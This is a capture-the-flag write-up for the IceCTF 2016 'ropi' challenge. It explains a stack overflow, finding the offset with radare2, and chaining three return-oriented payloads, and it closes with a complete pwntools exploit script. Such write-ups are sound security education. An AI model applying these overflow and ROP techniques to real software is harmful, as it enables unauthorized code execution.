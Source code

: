 #Nullp0inter's ropi write up for IceCTF 2016

##Ropi Pwn 75pts
Ritorno orientata programmazione 
nc.ropi.vuln.icec.tf 6500

## Write Up
In this challange we are again given a download link for what we find out is a 32-bit ELF executeable binary. The challenge name and hint tell us we will probably be doing rop but beyond that or the specifics we don't really know yet. When we fire up the binary we get the following:

```
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?

```

Uh oh, Italian. I don't speak that so I threw it into Google Translate and got the following translation:

```
Welcome to Pro Rectors conference!
Wants to leave a message?
```

So ok, its supposed to let me leave like a message. We get the gist. So now I tried entering just a bit of input to see normal execution:

```
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
Never gonna give you up
addio!
```

It just comes back and prints addio!. Ok, now what? Well lets see if we can crash it:
```zsh
python -c "print 'D'*100" | ./ropi 
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
[1]    72553 done                              python -c "print 'D'*100" | 
       72554 segmentation fault (core dumped)  ./ropi
```

YISSS, a core dump, lets examine that in gdb:

```
Stopped reason: SIGSEGV
0x44444444 in ?? ()
```
Awesome! It looks like we overwrote EIP, now we can generate a string with `ragg2` to take the guesswork (or real reversing) out of figuring out the buffer size:
```zsh
ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAA
```
Using the string ragg2 generated:
```
Stopped reason: SIGSEGV
0x41415041 in ?? ()
```
Translating that to an ASCII string we get 'AAPA'. There are two ways to do this now which are either copying the string right up to the first A and using something like len() in Python, but I'm going to use a builtin tool for radare2, `wopO <hex pattern>` which will basically search for how far off that pattern is in the string we generated:
```
 -- This is amazing ...
 [0x08048430]> wopO 0x41415041
 43
```

43 bytes of padding, alright, we can work with that. Now would be a good time to see where we actually get input and how much we get. We can do this by objdump or by IDA. I'm still learning to reverse so for now I'll just use IDA. 

Disassembling with IDA we get the following functions:

#####main:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
      ezy();
        puts("addio!");
          return 0;
}
```

#####ezy:
```C
ssize_t ezy()
{
      char buf; // [sp+10h] [bp-28h]@1

        puts("Benvenuti al convegno RetOri Pro!\nVuole lasciare un messaggio?");
          fflush(stdout);
            return read(0, &buf, 0x40u);
}
```

#####ret:
```C
int __cdecl ret(int a1)
{
      if ( a1 != -1159991569 )
            {
                    puts("chiave sbagliata! :(");
                        exit(1);
                          }
        fd = open("./flag.txt", 0);
          puts("[+] aperto");
            return fflush(stdout);
}
```

#####ori:
```C
int __cdecl ori(int a1, int a2)
{
      if ( a1 != -1412567041 && a2 != 2018915346 )
            {
                    puts("chiave sbagliata! :((");
                        exit(1);
                          }
        read(fd, &dati, 0x80u);
          puts("[+] leggi");
            return fflush(stdout);
}
```

#####pro:
```C
int pro()
{
      puts("[+] stampare");
        printf("%s", &dati);
          return fflush(stdout);
}
```
Using the disassembled functions we can see a few things. Firstly, we gain our input through a call to read and are given a max of 64 bytes (from nbytes being 0x40, which in decimal is 64). We know that for whatever reason, 43 or so bytes in we start to overwrite the EIP. This means we have *roughly* 20 bytes left to play with. Secondly we can see there are three functions other than `main()` and `ezy()` and each appears to have some part of loading and displaying the flag and have to be done in order.

We now know that we have 44 bytes to EIP, 20 bytes to play with including EIP overwrite, 3 functions that must be called in the order `ret()`->`ori()`->`pro()` (return oriented programming), and that these functions all (save `pro()`) appear to have some sort of check at the beginning. Converting those ugly looking numbers to hex we get that `ret()` wants an argument to be `0xbadbeeef` (thats beef with three 'e's) and `ori()` wants two which are 0xabcdefff and 0x78563412. If we fail to provide those then the program prints a failure message and exits.

What now? Well reviewing how ret2libc attacks work, we know that if we can hijack EIP as we have done then we can make it return to wherever we want in the program and do even more so long as we set the stack frame right. So first instinct is to try to make it do `main()`->`ezy()`->`ret()`->`ori()`->`pro()` but we quickly find that there is a problem. Distance to EIP is 44 bytes which leaves us with 20 bytes to craft the exploit. The addresses alone for ret, ori, and pro will take up 12 which leaves us with 8 bytes left. We then need to account for the 4 byte 'canary' in ret, and the two 4 byte 'canaries' in ori. Adding that all up we end up 4 bytes over what we have. That's a problem. So now what? Get clever with the rop gadgets?

Well if you recall I said we could use the EIP access to return ANYWHERE, and as it turns out our vulnerability is in its own function too: `ezy()`! So what do we do about it? Well we know during the same execution we must visit `ret()`,`ori()`, and `pro()` all in order and we also now know we can jump back to `ezy()` which means.... ARBITRARY JUMPING! 

If we first go to `ret()` and have it return to `ezy()` rather than `ori()` it means that we can rewrite our exploit and do it again, effectively "chaining" it, so that we can then jump to `ori()` and back to `ezy()` one final time to make a final jump to `pro()`

We have three seperate payloads we then need to construct:

```
payload one:    'A'*44<address of ret><address of ezy><0xbadbeeef>
payload two:    'A'*44<address of ori><address of ezy><0xabcdefff><0x78563412>
payload three:  'A'*44<address of pro><address of main, or just junk>
```

Luckily for us, pwntools makes sending these multiple encoded payloads really easy, setting it up just like that we get the following exploit script in python:

```Python
#!/usr/bin/python

# @nullp0inter
# IceCTF ROPI

from pwn import *

# Addresses
main        = 0x08048661
ezy_addr    = 0x0804852d
ret_addr    = 0x08048569
ret_can     = 0xbadbeeef
ori_addr    = 0x080485c4
ori_can1    = 0xabcdefff
ori_can2    = 0x78563412
pro_addr    = 0x0804862c

# Payload Generation
payload      = 'A'*44
payload     += p32(ret_addr)
    payload     += p32(ezy_addr)
    payload     += p32(ret_can)
    payload2     = 'A'*44
    payload2    += p32(ori_addr)
    payload2    += p32(ezy_addr)
    payload2    += p32(ori_can1)
    payload2    += p32(ori_can2)
    payload3     = 'A'*44
    payload3    += p32(pro_addr)
    payload3    += p32(main)

# Start Pwnage
    p = remote('ropi.vuln.icec.tf',6500) # Remote
#p = process('ropi') # local

    p.recv()
    p.sendline(payload)
    p.recv()
    p.sendline(payload2)
    p.recv()
    p.sendline(payload3)
    p.interactive()
```


##Special Thanks:
Special thanks to members both past and present of my club, wcsc, for all the information they shared with me. I was able to finally solve some fairly difficult challenges thanks to them answering my repeated stupid questions (ropi at 131 solves, dear_diary at 78)

##Resources:
I found a ton of great resources during the challenge for learning about ROP attacks:

[Saumil Shah's 'Dive Into ROP'](http://www.slideshare.net/saumilshah/dive-into-rop-a-quick-introduction-to-return-oriented-programming "Dive Into ROP")

[Saumil Shah's 'How Functions Work'](http://www.slideshare.net/saumilshah/how-functions-work-7776073 "How Functions Work")

[Jeffrey Crowell's Blog Post on "Pwning With Radare2"](http://crowell.github.io/blog/2014/11/23/pwning-with-radare2/ "Pwning With R2")
